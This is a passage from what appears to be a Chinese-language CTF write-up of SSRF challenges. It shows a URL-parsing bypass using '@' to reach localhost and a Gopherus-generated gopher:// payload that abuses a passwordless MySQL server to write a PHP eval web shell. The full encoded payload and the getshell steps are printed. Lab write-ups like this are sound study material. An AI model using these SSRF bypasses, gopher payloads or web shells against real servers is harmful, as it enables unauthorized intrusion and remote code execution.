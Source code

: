 正则表达式要匹配`http://ctf.`开头，`show`结尾的url：
按url格式构造一下：

```
http://ctf.@127.0.0.1/flag.php?show
```

- php的curl默认读取@后面的部分

  ```
  http://abc@127.0.0.1
  实际上是以用户名abc连接到站点127.0.0.
  ```

- ?后默认为get参数

## 359

> hint：打无密码的mysql
>
> 一个登录框login后跳转到check.php
> ![](https://i.loli.net/2021/09/03/5KC9dOz2mUcF1qa.png)
>
> 工具：[tarunkant/Gopherus: This tool generates gopher link for exploiting SSRF and gaining RCE in various servers (github.com)](https://github.com/tarunkant/Gopherus)

```
python2 gopherus.py --exploit mysql
```

```
用户名：root
查询语句写马：select '<?php eval($_POST[a]); ?>' INTO OUTFILE '/var/www/html/a.php';
```

![](https://i.loli.net/2021/09/03/g2cKnNP9ShJMOro.png)

得到：

```
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%47%00%00%00%03%73%65%6c%65%63%74%20%27%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%61%5d%29%3b%20%3f%3e%27%20%49%4e%54%4f%20%4f%55%54%46%49%4c%45%20%27%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%61%2e%70%68%70%27%3b%01%00%00%00%01
```

因为浏览器本身会对url进行一次解码，解码后的url可能含特殊字符，所以对下划线_后的部分再编码一次，然后再到check.php用returl=xxx传入即可getshell

![](https://i.loli.net/2021/09/03/oHzVgRShUwYQqLj.png)

## 360
